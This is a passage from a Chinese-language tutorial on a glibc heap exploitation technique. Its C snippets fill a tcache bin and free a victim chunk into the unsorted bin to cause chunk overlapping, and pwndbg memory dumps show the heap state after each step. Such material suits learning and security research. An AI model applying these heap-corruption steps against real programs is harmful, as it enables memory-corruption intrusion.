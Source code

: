 ```c
0x5555557579c0:	0x0000000000000000	0x0000000000000111 #chunk_prev(malloc)
......
0x555555757ad0:	0x0000000000000000	0x0000000000000111 #chunk_victim(malloc)
......
0x555555757be0:	0x0000000000000000	0x0000000000000021 #chunk(avoid top chunk)
0x555555757bf0:	0x0000000000000000	0x0000000000000000
0x555555757c00:	0x0000000000000000	0x0000000000020401 #top_chunk
......
0x555555757c70:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

接下来开始对heap chunk进行攻击，首先释放7个堆块填满对应大小的tcachebin（b 51->c）：

```c
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620894249004-3999379d-5836-4012-8e3e-e4112a9e936a.png)

然后我们释放chunk_victim堆块让其进入unsortedbin中（b 54->c）：

```c
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620894312419-bee51936-27e7-4699-8611-f4fb62dd548b.png)

现在的内存状况如下：

```c
pwndbg> x/400gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
0x555555757010:	0x0000000000000000	0x0700000000000000
......
0x5555557570c0:	0x0000000000000000	0x00005555557578c0
......    
0x555555757250:	0x0000000000000000	0x0000000000000111 #chunk0(free-tcachebin)
0x555555757260:	0x0000000000000000	0x0000555555757010
......
0x555555757360:	0x0000000000000000	0x0000000000000111 #chunk1(free-tcachebin)
0x555555757370:	0x0000555555757260	0x0000555555757010
......
0x555555757470:	0x0000000000000000	0x0000000000000111 #chunk2(free-tcachebin)
0x555555757480:	0x0000555555757370	0x0000555555757010
......
0x555555757580:	0x0000000000000000	0x0000000000000111 #chunk3(free-tcachebin)
0x555555757590:	0x0000555555757480	0x0000555555757010
......
0x555555757690:	0x0000000000000000	0x0000000000000111 #chunk4(free-tcachebin)
0x5555557576a0:	0x0000555555757590	0x0000555555757010
......
0x5555557577a0:	0x0000000000000000	0x0000000000000111 #chunk5(free-tcachebin)
0x5555557577b0:	0x00005555557576a0	0x0000555555757010
......
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(free-tcachebin)
0x5555557578c0:	0x00005555557577b0	0x0000555555757010
......
0x5555557579c0:	0x0000000000000000	0x0000000000000111 #chunk_prev(malloc)
......
```